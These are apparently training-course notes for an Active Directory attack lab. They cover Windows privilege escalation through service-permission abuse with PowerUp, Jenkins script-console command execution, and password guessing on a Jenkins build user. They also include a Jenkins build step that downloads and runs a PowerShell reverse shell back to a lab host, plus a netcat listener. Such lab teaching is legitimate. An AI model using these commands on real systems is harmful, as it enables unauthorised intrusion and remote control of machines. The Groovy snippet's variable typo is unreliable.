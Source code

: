### Privilege Escalation - Feature Abuse
- What we have been doing up to now (and will keep doing further in the class) is relying on features abuse.
- Features abuse are awesome as there are seldom any patches for them and they are not the primary focus for security teams!
- Targeting enterprise applications which are not built with security in mind is a really good example of features abuse.
- On Windows, many enterprise applications need either Administrative privileges or SYSTEM privileges making them a great avenue for PrivEsc.

### A realistic look on feature abuse with legacy services
- What tools like BloodHound miss out on are that lots of Enterprise Environments are full of insecurely written dashboards, appliances and applications that may not conform to the security standards required for a public facing application.
- If we can find a service that is either old or written insecurely, we may be able to execute commands on the machine that hosts it, using it as an attack vector.
- On Windows machines, these services usually run with SYSTEM or admin privileges, which make theses even more attractive.

### Privilege Escalation - Feature Abuse - Jenkins
- An example of such is an environment using a legacy version of Jenkins.
	- Jenkins is a widely used Continuous Integration tool.
	- There are many interesting aspects with Jenkins but for now we would limit our discussion to the ability of running system commands on Jenkins.
	- There is a Jenkins server running on `dcorp-ci` (172.16.3.11) on the default Jenkins port 8080.
	- We are using an older version of Jenkins as an example that represents a vulnerable enterprise application.
	- Jenkins used to be a lot more vulnerable than it is now, for example 5-6 years ago, there would be no authentication by default on Jenkins, so if one just knows the URL for Jenkins, he was able to use it as an Administrator without any roadblocks. This is not the case anymore.
	- Apart from numerous plugins, there are two ways of executing commands on a Jenkins Master.
	- If we have Admin access (default installation before 2.x) on the Jenkins console, we can run commands on a Jenkins Master by going to the script console at `http://<jenkins_server URL>/script`.
	- In the script console, Groovy scripts like the one below, could be executed.
			```def scout = new StringBuffer(), serr = new StringBuffer()
			def proc = '[INSERT COMMAND]'.execute()
			proc.consumeProcessOutput(sout, serr)
			proc.waitForOrKill(1000)
			println "out> $sout err> $serr"```
	- If you don't have admin access but could add or edit build steps in the build configuration, you could just add a build step, add "Execute Windows Batch Command" and enter: `powershell -c <command>`
	- Again, you could download and execute scripts, run encoded scripts and more.
	- We are not going to run a port scan to enumerate Jenkins, recall that we have skipped that part to focus on more interesting attack tactics.

### Privilege Escalation - Relaying
- In a relaying attack, the target credentials are not captured. Instead, they are forwarded to a local or remote service or an endpoint for authentication.
- Two types based on authentication:
	- NTLM relaying
	- Kerberos relaying
- LDAP and AD CS are the two most abused services for relaying.

### Learning Objective 5
- Exploit a service on `dcorp-studentX` and elevate privileges to local administrator.
	- `C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`
	- `powershell`
	- `. C:\AD\Tools\PowerUp.ps1`
	- `Invoke-AllChecks`
	- We can find multiple possible attack vectors for PrivEsc.
	- The "AbyssWebServer" service is intentionally vulnerable and has an "Unquoted Service Path". There are also many other services with "Unquoted Service Paths" and "Modifiable Service Files".
	- The script also reports a "Modifiable Service Files" PrivEsc vector for Edge, but it is a false-positive here.
	- The one that we are going to abuse, because it is the easiest one to abuse is the service permissions issue, shown here as "Modifiable Services", this issue is present with two services, "AbyssWebServer" and "SNMPTRAP".
	- For "SNMPTRAP", the original path is `C:\Windows\System32\snmptrap.exe`, and the service runs with `LocalSystem` privileges.
	- We have the rights (as a part of `WD` (Everyone)) to modify the service, which includes restarting it. (verifiable by executing `sc.exe sdshow snmptrap`)
	- What we are going to do is to modify the "SNMPTRAP" service and restart it.
	- We will modify the path to the net command so that when the service restarts it adds our studentX user to the local Administrators group.
		- PowerUp suggests an abuse function `Invoke-ServiceAbuse` here, however we are not going to use it because if we run `Invoke-ServiceAbuse` without specifying anything but the service name, it adds a new local user with the username "john" and password "Password123!", and adds it to the local Administrators group.
		- If we specify a username or domain username using the `-UserName` option like `-UserName "TESTLAB\john"`, it adds the domain user to the local Administrators group. This is something we would like to do, so that if required we can start a process that has the domain context and a high integrity (privilege), which means we want the domain context, but run as administrator.
		- We are going to run the command for either of the service we want to abuse, whether it be "AbyssWebServer" or "SNMPTRAP".
			- `Invoke-ServiceAbuse -Name "AbyssWebServer" -UserName "dcorp\student1" -Verbose`
			- We will see that the original path of the service is shown, and then the replaced path is shown, which is a net command to add dcorp\studentx to the local group `Administrators`.
			- The binary path is replaced and the service is restarted, as soon as the payload is executed with administrative privileges, and the original path is restored.
			- On executing `net localgroup Administrators`, we can see that studentX has been added to the local Administrators group.
			- On restarting the machine, we would have local Administrator privileges.
			- We could also have ran WinPEAS or PrivEscCheck for the same result, as shown in the lab manual.
- Identify a machine in the domain where studentX has local administrative access.
	- `C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`
	- `powershell`
	- `. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1`
		- Whenever we run this script, we should be aware that it is a noisy script, if we look at the MDI alerts for it in the target environment, we would see that most of it is User and I.P. address reconnaissance (SMB), many of them because the session enumeration process by itself is noisy.
	- `Find-PSRemotingLocalAdminAccess -Verbose`
	- It fetches a list of servers from the DC, and tries to enumerate if we have administrative access on any of the machines.
	- We would have local admin access only on `dcorp-adminsrv`.
- Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.
	- We are already informed in the learning objective that there is a Jenkins instance on 172.16.3.11:8080, when we navigate to it we can see that it is not authenticated and we cannot log in.
	- While being unauthenticated, we can enumerate the users and build executors. We can see that Jenkins is using its own user DB.
	- We can also enumerate that there is only one node, and that thus the build master is running Windows Server 2022.
	- Jenkins is a CI/CD tool that allows us to run builds.
	- Even today Jenkins doesn't have a password policy, which means we can even have as weak passwords as a single character.
	- Hydra has a "NSR - NullSameReverse" option for password brute-forcing, drawing inspiration from which, we can try to use the username as the password for the build user and see that we can log in.
	- Judging by the dashboard we can deduce that the build user does not have admin privileges, but we can see if it has the permission to configure a build by going to a project and seeing if we are able to see the configure option in the menu bar after clicking the project name.
	- What we can do here, among other things, is to configure a build step in a malicious manner.
	- A build step runs regardless of success or failure of the build.
	- We can try to run a Windows Batch File, because the command will execute on the build executor, which was a Windows Server 2022 machine.
	- We can add a build step to `Execute Windows batch command`, and add the command `powershell iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress 172.16.100.2 -Port 443`, followed by saving it.
	- The reverse shell payload can be hosted using HFS, a HTTP File Server.
	- Before building this, we need to set up a listener, we can set up a simple net cat listener for the rev-shell.
		- `C:\AD\Tools\netcat-win32-1.12\nc64.exe -nvlp 443`
	- Next we will run the build from the project's page to execute the reverse shell.
	- Do we have admin access on the target machine?
		  - Yes, we do not need to check for it since Jenkins always requires admin access on the machine it is hosted on.
		  - If we execute `$env:username`, we will see that we have access as the `ciadmin` user, which is a domain user, verifiable by its environment variables.
		  - `ls env:`
	- Will this be detected by an EDR?
		- Yes, since this is a very simple reverse shell, any EDR would detect it.